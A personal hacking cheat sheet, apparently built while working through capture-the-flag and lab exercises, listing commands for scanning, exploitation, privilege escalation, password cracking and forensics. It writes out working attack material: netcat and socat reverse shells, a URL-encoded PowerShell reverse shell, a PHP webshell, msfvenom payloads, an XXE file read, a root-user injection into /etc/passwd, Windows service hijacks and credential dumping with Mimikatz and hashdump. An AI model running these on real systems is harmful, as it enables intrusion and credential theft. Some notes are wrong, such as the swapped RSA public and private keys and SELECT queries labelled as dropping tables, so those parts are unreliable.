

# Hacking Notes
Random notes I've made while learning about hacking that might prove useful in the future.

## Nmap
- `nmap -sC -sV nmap 10.10.10.14 > nmap_scan`
- vulnerability scan: `nmap -sV -sC --script vuln 10.10.4.35`
- SYN/Stealth scan: `nmap -sS <target>`
- Most common UDP ports scan (takes longer than TCP): `nmap -sU --top-ports 20 <target>`
- Ping sweet (network host discovery): `nmap -sn 192.168.0.0/24` or `nmap -sn 192.168.0.1-254`
- Nmap Scripting Engine (NSE): https://nmap.org/book/nse-usage.html
- Scripts: https://nmap.org/nsedoc/
- Search Scripts: `grep "ftp" /usr/share/nmap/scripts/script.db`
- Also: `ls -l /usr/share/nmap/scripts/*ftp*`
- Skip using ping for host disdovery `-Pn`
- decide maximum transfer unit: `--mtu <number>` (must be multiples of 8)
- scan delay: `--scan-delay <time>ms`
- generate invalid chacksum for packets: `--badsum`

### Nmap Firewall/IDS evasion
- https://nmap.org/book/man-bypass-firewalls-ids.html
- `-f` used to fragment packets

## Searchsploit
- `searchsploit [name]`
- show exploit: `searchsploit -x 41006.txt`

## Search DNS information
- `nslookup domain.com`
- `dig axfr @10.10.10.13 cronos.htb`

## Change hostname
- `vi /etc/hosts`
- `10.10.10.13              cronos.htb`

## Upload file to target
- own host: `python -m SimpleHTTPServer`
- target host: `wget -r http://hostIP:8000/`
- OR; `python -m http.server 8080`

## Netcat
- listen for incoming file on target: `nc -l -p 1337 > LinEnum.sh`
- send the file from own host: `nc -w 3 [ip-add-target] 1337 < LinEnum.sh`

## Iterative command example
`for i in $(seq 1 20); do echo -n “$i: “; curl -s http://10.10.10.10/index.php/$i/ | grep ‘[title]’; done`

## Wfuzz
- exemple: `wfuzz -c -z file,big.txt http://shibes.xyz/api.php?breed=FUZZ`
- exemple: `wfuzz -c -z file,mywordlist.txt -d “username=FUZZ&password=FUZZ” -u http://shibes.thm/login.php`
- useful lists: https://github.com/danielmiessler/SecLists/tree/master/Fuzzing

## Gobuster
- example: `gobuster dir -u http://example.com -w wordlist.txt -x php,txt,html`

## Vega
- website vulnerability scanner
- tutorial: https://www.youtube.com/watch?v=1HDC6fKsKYE

## Burp Suite
- change hostname with Burp sometimes works `Host: cronos.htb`

## Reverse Shells
- upload reverse shell (/usr/share/webshells in Kali)
- change IP address and port number
- on own system `sudo nc -lvnp [port]`
- make HTTP request to shell to run
- reverse shell cheat sheet: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
- other chear sheet: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- also nice source: https://github.com/danielmiessler/SecLists/tree/master/Web-Shells

### Shell upgrade
- `python3 -c 'import pty;pty.spawn("/bin/bash")'`
- `export TERM=xterm`
- Background: `Ctrl + Z`
- `stty raw -echo; fg`
- Note that if the shell dies, any input in your own terminal will not be visible. To fix this, type `reset` and press enter.
- Other way to upgrade a shell is to generate an SSH keypair with `ssh-keygen` and leave the public SSH key in ~/.ssh/authorized_keys and use the private key to login via SSH: `ssh -i id_rsa username@10.0.0.1`

### Shell upgrade with rlwrap (useful for Windows targets)
- `sudo apt install rlwrap`
- `rlwrap nc -lvnp <port>`
- Background: `Ctrl + Z`
- `stty raw -echo; fg`

### Shell with socat
- see https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

#### Encrypted Socat Reverse Shell with OpenSSL
- generate RSA key on listening device: `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`
- `cat shell.key shell.crt > shell.pem`
- open listener on own device: `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 FILE:`tty`,raw,echo=0`
- on target: `socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

### Change terminal tty size
- on other terminal: `stty -a`
- in shell: `stty rows <number>`
- in shell: `stty cols <number>`

### Generate reverse shell with msfvenom
- `msfvenom -p <PAYLOAD> <OPTIONS>`
- list payloads: `msfvenom --list payloads`
- stageless: `windows/shell/reverse_tcp`
- staged: `windows/shell_reverse_tcp`
- ex; generate Windows x64 reverse shell in exe format: `msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`
- ex; generate reverse netcat payload: `msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`

### Reverse Shell with command injection
- on own pc: `sudo nc -lvnp 443`
- on target: `;nc <LOCAL-IP> <PORT> -e /bin/bash`

### Bind Shell from Windows PC
- target pc: `nc -lvnp <port> -e "cmd.exe"`
- own pc: `nc MACHINE_IP <port>`

### Webshell
- simple PHP webshell: `<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>` ?cmd= in URL
- reverse linux: `?cmd=nc 10.9.222.201 1337 -e /bin/bash`
- reverse Windows: `?cmd=powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.9.222.201%27%2C1337%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22`

### Generate meterpreter shell with Metasploit
- `msfconsole -q`
- `use multi/handler`
- `set PAYLOAD <payload>`
- `set LHOST <listen-address>`
- `set LPORT <listen-port>`
- run exploit in background: `exploit -j`
- check which session the shell is: `sessions`
- foreground session: `sessions <session-number>`

## Test command execution
- start tcpdump listener for ICMP: `sudo tcpdump ip proto \\icmp -i tun0`
- run command on target: `ping [local tun0 ip] -c 1`

## Wordpress
- `wpscan -u http://10.10.10.14`
- search for usernames `--enumerate u`
- 'Easiest way to edit a PHP file as admin is via the Wordpress templating engine'

## Send Post Request
- Safe POST REQUEST in a local folder
- `python -m SimpleHTTPServer`
- Go to `localhost:8000` in browser

## SQLi
- most commonly used comments for SQLi payloads: `--+` and `/*`
- also `-- -` is used
- asking the database if it's first number is 's' (115 in ADCII)
- `?id=1' AND (ascii(substr((select database()),1,1))) = 115 --+`

### UNION SQLi attack
1. Finding the number of columns
2. Checking if the columns are suitable
3. Attack and het some interesting data

1. `' ORDER BY 1--`, `' ORDER BY 2--` until error
1. `' UNION SELECT NULL,NULL,NULL--` untill error
2. `' UNION SELECT 'a',NULL,NULL,NULL--`, `' UNION SELECT NULL,'a',NULL,NULL--`

#### SQLMap
- `sqlmap --url http://tbfc.net/login.php --tables --columns`
- useful cheat sheet: https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet
- payloads: https://github.com/payloadbox/sql-injection-payload-list
- other payloads: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

#### SQLMap usage
- copy login request from Burp
- paste in vim
- remove spaces
- `sqlmap -r login.req`

#### SQLMap & BurpSuite
- send the login request to repeater
- save request: right mouse > save item
- `sqlmap -r filename`

## XSS
- Cross Site Scripting
- http://www.xss-payloads.com/

### Stored XSS
- XSS example in comment: `<script>alert("Test")</script>`
- malicious image: ``
- malicious URL: `<https://somewebsite.com/titlepage?id=> <script> evilcode() </script>`
- test with: `<h1></h1>` and `<b></b>`
- change content on webpage: `<script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>`

### DOM based XSS
- try `<iframe src="javascript:alert(`xss`)">` in search field

### Persistent (Server-Side XSS)
- using headers: `True-Client-IP`: `<iframe src="javascript:alert(`xss`)">`

## Command Injection
- Via CGI (Common Gateway Interface) scripts: `192.168.1.200/cgi-bin/systeminfo.sh?&whoami`

## Server Site Request Forgery
- if this link works: `http://10.10.0.150/?proxy=http://list.hohoho:8080/search.php?name=test`
- you can change the proxy to redirect to localhost with `localtest.me`
- `http://10.10.0.150/?proxy=http://list.hohoho.localtest.me`

## PrivEsc
1. Determining the kernel of the machine (kernel exploitation such as Dirtyc0w)
2. Locating other services running or applications installed that may be abusable (SUID & out of date software)
3. Looking for automated scripts like backup scripts (exploiting crontabs)
4. Credentials (user accounts, application config files..)
5. Mis-configured file and directory permissions

### PrivEsc Enumeration
- `uname -a`
- `cat ~/.bash_history`
- find important file or process: `cat ~/.bash_profile`
- find important file or process: `cat ~/.bashrc`
- `sudo -V` (< 1.8.28 are vulnerable to CVE-2019-14287)'
- check what we can sudo: `sudo -l`
- check files in /etc for passwords and other information (/etc/passwd, /etc/shadow, /etc/hosts)
- `cat /etc/crontab`

- `whoami` and `id`
- show distrubution version:`lsb_release -a`
- show current shell: `echo $0`
- find SSH keys: `find / -name id_rsa 2> /dev/null`
- show host MOTD: `cat /etc/update-motd.d/00-header`

### Edit /etc/passwd to get root
- generate password hash for new user: `openssl passwd -1 -salt [salt] [password]`
- add the following: `[username]:[hash]:0:0:root:/root:/bin/bash`

### Malicious binary for SUID binary with PATH variable
- example: script runs 'ls' as root
- `cd /tmp`
- `echo "/bin/bash" > ls`
- `chmod +x ls`
- export PATH=/tmp:$PATH
- run the SUID binary

### Find command
- look for all files with `.log` extension: `find type -f -name "*.log 2>/dev/null"`
- also interesting files: .bak (backup), .conf (configuration)

### find SUID bit Linux
- `find / -perm -u=s -type f 2>/dev/null`
- `find / -perm 4000 2>/dev/null`

### Useful links
- GTFOBins: https://gtfobins.github.io/
- https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation
- https://payatu.com/guide-linux-privilege-escalation
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#linux---privilege-escalation

### Privesc with LXD
- check if the user is member of lxd group: `id`
- on attacking machine:
    - Download build-alpine on your local machine via the git repository (https://github.com/lxd-images/alpine-3-7-apache-php5-6)
    - Execute the script "build -alpine" that will build the latest Alpine image as a compressed file. This must be executed by the root user.
    - Transfer this newly created tar file to the victim machine
- on victim machine:
    - Download the alpine image
    - Import image for lxd
    - Initialize the image inside a new container <- Worth checking the already imported/available images as you may be able to skip to this step
    - Mount the container inside the /root directory
- check what images are readily available on the machine: `lxc image list`
- `lxc init IMAGENAME CONTAINERNAME -c security.privileged=true` (containername can be anything)
- `lxc config device add CONTAINERNAME DEVICENAME disk source=/ path=/mnt/root recursive=true` (devicenam can also be anything)
- `lxc start CONTAINERNAME`
- `lxc exec CONTAINERNAME /bin/sh`
- mount storage and verity root escalation: `id` and `cd /mnt/root/root`
- more info here: https://www.hackingarticles.in/lxd-privilege-escalation/

### Useful privesc scripts
- LinEnum.sh, download: `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`
- LinPEAS: `wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh`
- linuxprivchecker.py
- unixprivesc.py

## Images
- http://exif.regex.info/exif.cgi
- check metadata of image: `exiftool image.png`

## SSH Brute Force
- `hydra -t 16 -l USERNAME -P /usr/share/wordlists/rockyou.txt -vV 10.10.3.11 ssh`

## decrypt encrypted RSA/SSH key
- `ssh2john filename > newfilename`
- `john newfilename -w=/usr/share/wordlists/rockyou.txt`

## Steganography tools
- `strings filename`
- `binwalk filename`
- `steghide extract -sf filename`

## SMB/NFS (Samba)
- find usernames `sudo enum4linux -U 10.5.4.2`
- find shared `sudo enum4linux -S 10.5.4.2`
- connect to share `sudo smbclient //10.5.4.2//sharename`
- sometimes no password is needed
- recursively download share contents: `smbget -R smb://<ip>/<sharename>`

## Important log files
- /var/log/auth.log (attempted logins for SSH, changes too or logging in as system users)
- /var/log/syslog (system events such as firewall alerts)
- /var/log/[service] (for example /var/log/apache2)

## Reverse Engineering
- Assembly file `.s`
- Object program `.o`

### Radare2
- open binary in debugging mode: `r2 -d ./<binary_name>`
- analyze the program with `aa` (can take a while)
- open help: `?` or help for specific function: `?a`
- find list of functions: `afl`
- find functions at main: `afl | grep "main"`
- examine assembly code at main: `pdf @main` (print disassembly function)
- set a breakpoint: `db 0x00400b55`
- run the program to hit the breakpoint: `dc`
- view contents of variable: `px @memory-address` example: `px @rbp-0xc`, can be found in first lines of the code
- go to next instruction: `ds`
- show value of registers: `dr`
- if you make a mistake, reload the program with: `ood`
- cheatsheet: https://scoding.de/uploads/r2_cs.pdf



Some other important instructions:
- leaq source, destination: this instruction sets destination to the address denoted by the expression in source
- addq source, destination: destination = destination + source
- subq source, destination: destination = destination - source
- imulq source, destination: destination = destination * source
- salq source, destination: destination = destination << source where << is the left bit shifting operator
- sarq source, destination: destination = destination >> source where >> is the right bit shifting operator
- xorq source, destination: destination = destination XOR source
- andq source, destination: destination = destination & source
- orq source, destination: destination = destination | source

### Disassembly tools for .NETFramework applications
- ILSpy
- Dotpeek

## Zip and unzip
- zip a directory: `tar cvzf tarball.tar.gz directory/`
- unzip a directory: `tar xvzf tarball.tar.gz`

## FTP
- common 'cwd' vulnerability in legacy FTP versions: `https://www.exploit-db.com/exploits/20745`
- brute force password with hydra: `hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp`

## NFS
- NFS enumeration tool: NFS-Common
- mount: `sudo mount -t nfs IP:share /tmp/mount/ -nolock`
- Show the NFS server's export list: `showmount -e 10.10.180.248`
- For example of exploiting an NFS drive if root-squashing is disabled: `https://tryhackme.com/room/networkservices2`

## SMTP
- Enumerate with Metasploit: `auxiliary/scanner/smtp/smtp_version`
- Also: `auxiliary/scanner/smtp/smtp_enum`
- Useful tool without using Metasploit: `smtp-user-enum`

## MySQL
- connect remotely (dangerous): `mysql -h [IP] -u [username] -p`
- connect locally: `mysql -uUSERNAME -p`
- drop all databases: `show databases;`
- enter a db: `use DATABASE;`
- dump the table contents: `SELECT * FROM TABLE;`
- drop all tables in db: `show tables;`
- enumerate with Metasploit: `auxiliary/admin/mysql/mysql_sql`
- dump databases and tables: `auxiliary/scanner/mysql/mysql_schemadump`
- dump (password) hashes: `auxiliary/scanner/mysql/mysql_hashdump`
- enumerate manually: `https://nmap.org/nsedoc/scripts/mysql-enum.html`
- enumerate manually: `https://www.exploit-db.com/exploits/23081`

## SQLite (flat-file databases)
- open database: `sqlite3 filename.db`
- show tables: `.tables`
- show table info: `PRAGMA table_info(customers);`
- drop all table info: `SELECT * FROM customers;`

## Alternate Data Stream (hide .exe in .exe)
- scan malicious EXE in Powershell: `c:\Tools\strings64.exe -accepteula file.exe`
- `-Stream` in the output can relate to ADS
- view ADS using Powershell: `Get-Item -Path file.exe -Stream *`
- execute hidden EXE stream: `wmic process call create $(Resolve-Path file.exe:streamname)`

## Additional Kali downloads
- Download useful lists from Seclists: `sudo apt install seclists`

## Decrypting hashes with john the ripper
- `john hash.txt`
- example hashes: https://hashcat.net/wiki/doku.php?id=example_hashes
- search formats: `john --list=formats | grep -i 'md5'`
- crack: `john --format=raw-sha1 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

### Identify hashes
- `wget https://gitlab.com/kalilinux/packages/hash-identifier/-/raw/kali/master/hash-id.py`
- `python3 hash-identifier.py`

### /etc/passwd hashes
- `unshadow [path to passwd] [path to shadow] > unshadowed.txt`
- `john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt unshadowed.txt`

### Single cracking based on username:
- hash.txt: `username:hash`
- `john --single --format=[format] [path to file]`

### Password protected zip files (same with rar)
- `zip2john file.zip > hash.txt`
- `john --wordlist=[wordlist] hash.txt`

## Password cracking websites
- https://crackstation.net/
- https://md5decrypt.net/en/
- https://hashes.com/en/decrypt/hash

## cURL
- get request: `curl http://10.10.171.117:8081/ctf/get`
- post request with data in body: `curl -X POST --data "flag_please" http://10.10.171.117:8081/ctf/post`
- post request with headers: `curl -X POST -F 'name=linuxize' -F 'email=linuxize@example.com' https://example.com/contact.php`

## XML External Entity (XXE)
XXE Test:
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
    <to>0x47root</to>
    <from>was</from>
    <heading>here</heading>
    <body>hihi ;)</body>
</note>
```
Output file contents:
```XML
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```
## Using Null Byte for blocked file extensions
- Null Byte: `%00`, URL encoded: `%2500`
- if only .md files can be uploaded: `http://10.10.250.194/ftp/package.json.bak%2500.md`

## Active Directory
- Location of NTDS.dit (holds DC info and password hashes): `%SystemRoot%\NTDS`
- From Windows terminal to Powershell: `powershell -ep bypass`

### PowerView
- import PowerView module: `. .\PowerView.ps1`
- list app Operating Systems on domain: `Get-NetComputer -fulldata | select operatingsystem`
- list all users on domain: `Get-NetUser | select cn`
- list all groups: `Get-NetGroup -GroupName *`
- account information for domain admins: `Get-NetUser -SPN | ?{$_.memberof -match 'Domain Admins'}`
- Powerview cheat sheet: https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993

## Metasploit
- save used commands to file: `spool`
- save set variables to file in msfx folder: `save`

### Metasploit Database
- buiten msfconsole: `msfdb init`
- show database status in msfconsole: `db_status`
- nmap scan resultaten naar db: `db_nmap -sV 10.10.21.140`
- show scanned hosts: `hosts`
- show scanned services: `services`
- show found vulnerabilities: `vulns`
- show running jobs: `jobs`
- show active sessions: `sessions`
- switch session: `sessions -i SESSION_NUMBER`

### Meterpreter
- list processes: `ps`
- enumeration: `getuid` `sysinfo`
- dump all user password hashes: `hashdump`
- Post exploit recon for vulnerabilities: `run post/multi/recon/local_exploit_suggester SHOWDESCRIPTION=true`
- forcing RDP on a Windows machine: `run post/windows/manage/enable_rdp`
- adding a route: `run autoroute -s 172.18.1.0 -n 255.255.255.0`

## Netstat
- list all tcp connections: `netstat -at | less`
- also useful: `netstat -tulpn`

## RDP
- connect via RDP: `xfreerdp /u:user /p:password321 /cert:ignore /v:10.10.225.187`

## Shodan
- lookup ASN for large companies: https://www.ultratools.com/tools/asnInfo
- find IP addresses belonging to ASN (behind proxies like Cloudflare): `asn:AS14061`
- find devices vulnerable to eternal blue: `vuln:ms17-010`
- `has_screenshot=true port:554`
- maps.shodan.io
- images.shodan.io

### Shodan dorks
- find pc's infected with ransomware: `has_screenshot:true encrypted attention`
- industrial control systems: `screenshot.label:ics`
- devices vulnerable to heartbleed: `vuln:CVE-2014-0160`
- https://github.com/humblelad/Shodan-Dorks
---------------------------------------------------------------------------------------------------------------------------------------------------------------
# Windows
- possible stored credentials: `C:\Program Files\FileZilla Server\FileZilla Server.xml`
- `C:\xampp\FileZilla Server\FileZilla Server.xml`
- add own account: `net user <username> <password> /add`
- add account to admin group: `net localgroup administrators <username> /add`

## Windows Privesc
- examples work on Windows 10

### Generate reverse shell
- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe`
- start SMB server: `sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .`
- download in Windows PC: `copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe`
- start listener and execute shell with: `C:\PrivEsc\reverse.exe`

### Insecure Service Permissions
- Use accesschk.exe to check the "user" account's permissions on the "daclsvc" service:`C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc`
- query the serivce: `sc qc daclsvc` (runs as system)
- change the binpath: `sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""`
- run shell as system: `net start daclsvc`

### Unquoted service
- check if unquoted service runs as SYSTEM: `sc qc unquotedsvc`
- check who is allowed to write to the service path: `C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\" `
- cope the shell and rename: `copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"`
- run service: `net start unquotedsvc`

### Weak registry permissions
- query registry service to see if it runs as system: `sc qc regsvc`
- check who is able to write the registry entry: `C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc`
- overwrite ImagePath registry key to reverse shell: `reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f`
- start service: `net start regsvc`

### Insecure service executables
- `sc qc filepermsvc`
- check who can write binary path name: `C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"`
- replace service with reverse shell: `copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y`
- `net start filepermsvc`

### Registry - AutoRuns
- query the registry for AutoRun executables: `reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`
- check who can write executable: `C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"`
- copy reverse shell to executable: `copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y`
- make sure the executable runs

### Registry - AlwaysInstallElevated keys
- Query the registry for AlwaysInstallElevated keys: `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
- or: `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
- `0x1` means installers run with elevated privileges
- generate reverse shell installer: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi`
- run installer: `msiexec /quiet /qn /i C:\PrivEsc\reverse.msi`

### Registry - Passwords
- search registry for keys with the name 'password': `reg query HKLM /f password /t REG_SZ /s`
- query one of the found keys: `reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"`
- spawn command prompt with found credentials: `winexe -U 'admin%password' //10.10.193.40 cmd.exe`

### Passwords - Saved Creds
- list saved creds: `cmdkey /list`
- run as user with saved creds: `runas /savecred /user:admin C:\PrivEsc\reverse.exe`

### Get a shell with found password hashes
- `pth-winexe -U 'admin%hash' //10.10.105.39 cmd.exe` (hash = [NT hash]:[NTLM hash])

### Scheduled tasks
- check if any scheduled tasks run as SYSTEM
- let the scheduled script run the reverse shell

### Insecure GUI apps
- example: Paint runs with SYSTEM privileges
- file > open > reverse.exe

### Token impersonation
- from local service to system with Rogue Potato: `C:\PrivEsc\RoguePotato.exe -r 10.10.10.10 -e "C:\PrivEsc\reverse.exe" -l 9999`
- from local service to system with PrintSpoofer: `C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i`

### Windows Privesc Scripts
- winPEASany.exe
- Seatbelt.exe
- PowerUp.ps1: `wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1`
- SharpUp.exe

### PowerUp.ps1 with Metasploit
- `upload <location of PowerUp.ps1>`
- in meterpreter shell: `load powershell`
- switch to powershell: `powershell_shell`
- run script: `. .\PowerUp.ps1`
- `Invoke-AllChecks`

## Mimikatz
- dump SAM hive (in cmd): `reg save HKLM\SAM SAM`
- dump SYSTEM hive (in cmd): `reg save HKLM\SYSTEM SYSTEM`
- download mimikatz on Windows PC: https://github.com/0x47root/mimikatz
- run mimikatz
- `privilege::debug`
- `token::elevate`
- `log hash.txt`
- `lasdump::sam SYSTEM SAM`
---------------------------------------------------------------------------------------------------------------------------------------------------------------
# OSINT

## Data breach search
- https://haveibeenpwned.com/
- https://scylla.sh/
- https://dehashed.com/ (wel betaald)

## grep.app
- Tool om Git repositories te doorzoeken.

## RevealName.com
- Reveals someone's phone number

## Username find tools
- https://namechk.com/
- https://whatsmyname.app/
- https://namecheckup.com/
- https://github.com/WebBreacher/WhatsMyName
- https://github.com/sherlock-project/sherlock

## Reverse Image Search
- https://google.com
- https://tineye.com/
- https://www.bing.com/visualsearch?FORM=ILPVIS
- https://yandex.com/images/
- https://pimeyes.com
---------------------------------------------------------------------------------------------------------------------------------------------------------------
# Crypto
- useful site: rumkin.com/tools

## RSA
- useful tool: https://github.com/Ganapati/RsaCtfTool
- other useful tool: https://github.com/ius/rsatool
- p and q are large prime numbers
- n is the product of p and q
- The public key is n and d, the private key is n and e.
- “m” is used to represent the message (in plaintext) and “c” represents the ciphertext (encrypted text).

## GPG
- import private key: `gpg --import file.key`
- decrypt message: `gpg --decrypt message.gpg`
---------------------------------------------------------------------------------------------------------------------------------------------------------------
# Forensics

## Memory
- extract raw memory tools:
    - FTK Imager
    - Redline
    - DumpIt.exe
    - win32dd.exe / win64dd.exe
- pull unencrypted memory from Windows PC: `%SystemDrive%/hiberfil.sys` (Windows hibernation file)
- VM memory files:
    - VMware `.vmem`
    - Hyper-V `.bin`
    - Parallels - `.mem`
    - VirtualBox `.sav`

## Volatility
- view image info: `volatility -f MEMORY_FILE.raw imageinfo`
- test profile and list processes: `volatility -f MEMORY_FILE.raw --profile=PROFILE pslist`
- show network connections: `volatility -f MEMORY_FILE.raw --profile=PROFILE netscan`
- view hidden processes: `volatility -f MEMORY_FILE.raw --profile=PROFILE psxview`
- if any are false, that means it could be injected (bad thing) `volatility -f MEMORY_FILE.raw --profile=PROFILE ldrmodules`
- view unexpected patches in the standard system DLLs (Hooking module: `<unknown>` is really bad): `volatility -f MEMORY_FILE.raw --profile=PROFILE apihooks`
- find malicious code and dump: `volatility -f MEMORY_FILE.raw --profile=PROFILE malfind -D <Destination Directory>`
- list all of the DLLs in memory: `volatility -f MEMORY_FILE.raw --profile=PROFILE dlllist`
- dump the DLL's from memory with specific process ID: `volatility -f MEMORY_FILE.raw --profile=PROFILE --pid=PID dlldump -D <Destination Directory>`
---------------------------------------------------------------------------------------------------------------------------------------------------------------
# Other
- Create files in /dev/shm. This is empied during reboot, so you don’t have to clean up.
- Output errors to the ‘bitbucket’ 2>/dev/null
- Back to previous folder: `cd -`
- Sometimes, useful information is stored in the SSL certificate
- Use FoxyProxy Firefox browser addon to easily enable the Burp proxy
- Obfuscated but filled in passwords in the browser can still be seen via the inspector function
